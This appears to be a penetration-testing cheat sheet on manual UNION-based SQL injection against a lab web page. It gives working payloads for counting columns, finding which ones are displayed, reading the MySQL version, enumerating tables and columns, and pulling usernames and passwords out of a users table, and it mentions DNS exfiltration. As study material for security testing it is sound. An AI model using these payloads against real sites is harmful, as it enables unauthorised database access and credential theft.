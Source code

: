 Ex: DNS can be used to exfil data from a db  
  
  
  
### Column Number Enum:
```sql
http://192.168.xxx.10/debug.php?id=1 order by 1
```
If there is at least one column in the query, it's valid and the page will render w/o errors.  
  
  
To determine which columns are displayed on a page and where:  
Ex: Assuming 3 columns total in the db  
```sql
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, 3
```

  
\***IF** the results of the page don't display the numbers after SELECT ^, you may need to adjust above to:
```sql
id=0 UNION
```
to prevent the first returned result somewhere in the web site's code from being displayed.  
  
  
Whichever columns are displayed, we can target that column and use it to extract data from the db:  
\***Note** - Following cmds are platform specific  
Ex: Using column 3 for data extraction:  
```sql
UNION ALL SELECT 1, 2, @@version
```
	Shows version of MySQL software  
  
---------- [SEE BELOW FOR MORE BY LANGUAGE](#Language%20Syntax) ----------  
  
```sql
UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables
```

```sql
UNION ALL SELECT 1, username, password FROM users
```
	Retrieves cell data for _username_ and _password_ fields in the _users_ table
```sql
UNION ALL SELECT * FROM users
```
	works too  
  
\*Note: Don't forget commas to delineate!  
  
After finding out the db in use w/ _database()_, find out table names:  
```sql
0 UNION SELECT 1, 2, group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db'
```


Can then discover names of columns of the above found table:  
```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'table'
```
